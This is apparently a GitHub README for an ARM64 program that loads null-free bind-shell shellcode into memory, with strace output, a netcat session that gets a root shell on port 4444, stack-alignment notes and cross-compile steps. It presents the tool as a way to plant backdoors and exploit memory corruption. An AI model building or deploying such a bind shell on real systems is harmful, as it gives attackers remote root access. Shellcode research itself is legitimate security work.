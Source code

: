 # arm64_bind_shellcode
C program to map arm64 bind shell code into memory and execute code

## This will only work on target arm64 device. 
### Fixed stack management issues in original assembler code.

Source code for mapping bind shell code into memory and executing the mapped shell code.
The arm64 code was tested on a Raspberry Pi running Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-1062-raspi2 aarch64).

## License

Please see the (LICENSE) file for the exact details.

## bind-shellcode-mapped 

## About

The C program bind-shellcode-mapped loads an array of arm-64 bind shell code and execute in memory mapped location.  After relocating the shell code this code is invoked as a C function. A bind shell is a shell that binds to a specific port on the target host to listen for incoming connections.

A bind shell is used to create a listening port on a target machine, that can be later accessed via the network and interact with a system shell. This is a common technique for creating backdoors and maintaining persistence on a target machine.

This will demonstrate how to create a bind shell and map it into memory.  This program will accept incoming connection a execute a shell to the remote connection.

Now the shell code assembler source code is modified to directly perform the system calls with the linux system call number.  Additionally, the null bytes have been removed from the code.  This will allow the shell code to be used to exploit memory corruption vulnerabilities.

This program can be ran as a shell or root user.

In the first terminal on the arm64 trget start the bind shell code mapped program

    On the Target run the bind-shellcode-mapped program
    Start the server as root on the target
    $ su
    passphrase
    # strace -e execve,socket,bind,listen,accept,dup2 ./bind-shellcode-mapped 
    execve("./bind-shellcode-mapped", ["./bind-shellcode-mapped"], 0xfffff57e5850 /* 19 vars */) = 0
    Shellcode Length: 164 Bytes
    socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
    bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
    listen(3, 2)                            = 0
    accept(3, NULL, NULL)                   = 4
    execve("/bin/sh", NULL, NULL)           = 0
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=15079, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=15080, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    +++ exited with 0 +++

In another terminal on the arm64 target use netstat to identify the active ports on the target.   The program bind-shell can be seen running on port 4444.  Next start netcat to connect to port 4444.  If the connection succeeds user interaction will reveal a root shell (without prompt) as shown below.
       
    $ netstat -tlpn
    (Not all processes could be identified, non-owned process info
    will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -                   
    
    $ netcat -nv 0.0.0.0 4444
    Connection to 0.0.0.0 4444 port [tcp/*] succeeded!
    whoami 
    root
    id
    exit

## Stack Management Issues

For AArch64, sp must be 16-byte aligned whenever it is used to access memory. This is enforced by AArch64 hardware.

// Broken AArch64 implementation of `push {x1}; push {x0};`.
str   x1, [sp, #-8]!  // This works, but leaves `sp` with only 8-byte alignment
str   x0, [sp, #-8]!  // ... so the second `str` will fail.

C compilers will typically reserve stack space at the start of the function, then leave sp alone until the end, so the restriction is not as awkward as it first seems. However, you must be aware of it when handling assembly code.

It sounds wasteful – and in most cases it is – but the simplest way to handle the stack pointer can be to push each value to a 16-byte slot. This doubles the stack usage (for pointer-sized values), and it effectively reduces the available memory bandwidth. It is also awkward to implement multiple-register operations using this scheme, since each register requires a separate instruction.

## Sources: sc_mapped

Credit to Ken Kitahara for the use of his source code.

https://packetstormsecurity.com/files/153461/Linux-ARM64-Bind-4444-TCP-Shell-bin-sh-Null-Free-Shellcode.html

Max Compston, Embedded Software Solutions.

## Building this Release

The source code for this program is built using CMake.  

The source code for the arm64 target are cross compiled using gnu arm64 compiler, below.  First in install the cross-compiler on the host.

$ sudo apt-get install gcc-aarch64-linux-gnu g++-aarch64-linux-gnu

Next, set up the host to cross-compile arm64 creating a toolchain-aarch64-linux-gnu.cmake file in your home directory.  Add the following:

#- this one is important
SET(CMAKE_SYSTEM_NAME Linux)
SET(CMAKE_SYSTEM_PROCESSOR arm64)

#- specify the cross compiler
SET(CMAKE_C_COMPILER   /usr/bin/aarch64-linux-gnu-gcc)
SET(CMAKE_CXX_COMPILER /usr/bin/aarch64-linux-gnu-g++)

#- where is the target environment
SET(CMAKE_FIND_ROOT_PATH  /user/aarch64-linux-gnu)

#- search for programs in the build host directories
SET(CMAKE_FIND_ROOT_PATH_MODE_PROGRAM NEVER)

#- for libraries and headers in the target directories
SET(CMAKE_FIND_ROOT_PATH_MODE_LIBRARY ONLY)
SET(CMAKE_FIND_ROOT_PATH_MODE_INCLUDE ONLY)

To build the cross-compiled arm64 program navigate to the build directory and run cmake as follows:

$ cmake -DCMAKE_TOOLCHAIN_FILE=~/toolchain-aarch64-linux-gnu.cmake .. && make
